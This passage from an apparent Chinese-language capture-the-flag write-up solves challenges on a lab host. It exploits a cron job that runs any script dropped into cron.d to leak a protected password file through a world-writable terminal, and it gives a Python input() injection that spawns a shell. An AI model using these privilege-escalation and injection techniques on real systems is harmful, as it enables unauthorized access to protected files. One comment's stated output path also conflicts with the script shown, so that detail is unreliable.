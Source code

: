 ````bash
|cat .passwd
````
---
## 5.Bash - cron
脚本注释表明，根据crontab规则，运行app-script-ch4的用户每分钟运行一次。
除其他事项外，该脚本将执行文件夹cron.d /中指示的具有app-script-ch4-cracked权限的命令。
````bash
app-script-ch4@challenge02:~$ cat ch4 
#!/bin/bash
# Sortie de la commande 'crontab -l' exécutée en tant que app-script-ch4-cracked:
# */1 * * * * /challenge/app-script/ch4/ch4  //app-script-ch4-cracked该用户下的任务计划为每分钟执行一次/challenge/app-script/ch4/ch4这个脚本。
# Vous N'avez PAS à modifier la crontab(chattr +i t'façons)
# Output of the command 'crontab -l' run as app-script-ch4-cracked:
# */1 * * * * /challenge/app-script/ch4/ch4
# You do NOT need to edit the crontab (it's chattr +i anyway)
# hiding stdout/stderr
exec 1>/dev/null 2>&1
wdir="cron.d/"
challdir=${0%/*}
cd "$challdir"
if [ ! -e "/tmp/._cron" ]; then
    mkdir -m 733 "/tmp/._cron"
fi
ls -1a "${wdir}" | while read task; do
    if [ -f "${wdir}${task}" -a -x "${wdir}${task}" ]; then
        timelimit -q -s9 -S9 -t 5 bash -p "${PWD}/${wdir}${task}"  //timelimit这个命令不是很懂，但大概意思是固定的时间间隔内执行bash -p cron.d/某个脚本
    fi
    rm -f "${PWD}/${wdir}${task}"  
done
````
````bash
rm -rf cron.d/*   //每隔一分钟清理下该目录下的文件，本题解题时，
需要在该目录创建脚本，有可能我没有完成相关操作，这个脚本就会被删除，需要在一分钟之内完成接题。
set | grep /dev/pts                            //查看当前ssh连接使用的终端号
chmod o+w /dev/pts/n                    //将当前终端的写权限赋予其他用户，即app-script-ch4-cracked
vim cron.d/script.sh                         //写入任务计划
#!/bin/bash
/bin/cat /challenge/app-script/ch4/.passwd > /dev/pts/n
chmod o+rx cron.d/script.sh           //将该脚本的权限设置为其他用户可以读取和运行，因为该脚本需要在app-script-ch4-cracked用户的任务计划中执行，创建脚本后可能被瞬间删除，那样就需要重新创建，执行这两步操作后，等待不超过一分钟就可以生成/tmp/ch4/result.txt包含密码的结果。
````
---
## 6.Python - input()
````python
__import__("os").execl("/bin/sh","sh")
sys.stdout.write(open(".passwd").readline())  
```` 
---
## 7.Python - pickle
https://www.cnblogs.com/heycomputer/articles/10613850.html

---